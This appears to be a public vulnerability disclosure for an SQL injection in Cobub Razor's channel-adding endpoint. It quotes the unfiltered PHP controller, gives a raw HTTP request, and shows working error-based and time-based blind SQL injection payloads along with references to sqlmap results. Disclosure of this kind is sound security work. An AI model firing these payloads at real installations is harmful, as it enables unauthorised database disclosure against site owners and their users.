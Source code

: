 
## An SQL Injection vulnerability exists in Western Bridge Cobub Razor 0.7.2 via the channel_name and platform parameter in a /index.php?/manage/channel/addchannel request. ##  

Vendor Homepage : http://www.cobub.com/

Software Link : https://github.com/cobub/razor/releases

Affected Version : <= 0.8.0

## Vulnerability description ##  

The string  of the 'channel_name' and 'platform' parameter transmission is completely without check and filter,so if the string is passed, it will lead to the existence of SQL injection vulnerability,This could result in full information disclosure.

Code source:  
/application/controllers/manage/channel.php at line 75-95
```
    /**
     * Addchannel add custom channel
     *
     * @return bool
     */
    function addchannel()
    {
        $userid = $this->common->getUserId();
        $channel_name = $_POST['channel_name'];
        $platform = $_POST['platform'];
        $isUnique = $this->channel->isUniqueChannel($userid, $channel_name, $platform);
        if (!empty($isUnique)) {
            echo false;
        } else {
            if ($channel_name != '' && $platform != '') {
                
                $this->channel->addchannel($channel_name, $platform, $userid);
                echo true;
            }
        }
    }
```
## Technical details ##
request:
```
POST /index.php?/manage/channel/addchannel HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://localhost/index.php?/manage/channel
Content-Length: 28
Cookie: ci_session2=a%3A4%3A%7Bs%3A10%3A%22session_id%22%3Bs%3A32%3A%22771b48bbea848fd396ce3c79263c7ef8%22%3Bs%3A10%3A%22ip_address%22%3Bs%3A7%3A%220.0.0.0%22%3Bs%3A10%3A%22user_agent%22%3Bs%3A73%3A%22Mozilla%2F5.0+%28Windows+NT+10.0%3B+WOW64%3B+rv%3A48.0%29+Gecko%2F20100101+Firefox%2F48.0%22%3Bs%3A13%3A%22last_activity%22%3Bi%3A1520496121%3B%7D237011da46b2342467385c6f24631de2
X-Forwarded-For: 8.8.8.8
Connection: close

channel_name=test&platform=1%22
```  

## Proof of Concept ##  

The SQL injection type: error-based and AND/OR time-based blind  
Parameter: channel_name,platform  
Payload(This string is also applied to 'platform' at the same time):  
```
1.channel_name=test" AND (SELECT 1700 FROM(SELECT COUNT(*),CONCAT(0x7171706b71,(SELECT (ELT(1700=1700,1))),0x71786a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- JQon&platform=1
2.channel_name=test" AND SLEEP(5)-- NklJ&platform=1
```
Input special characters ["] can cause an error in the SQL syntax:  
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/sql_1.png)  
Use manual injection:  
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/sql_2.png)
SQLmap results:  
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/sql_3.png)
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/sql_4.png)


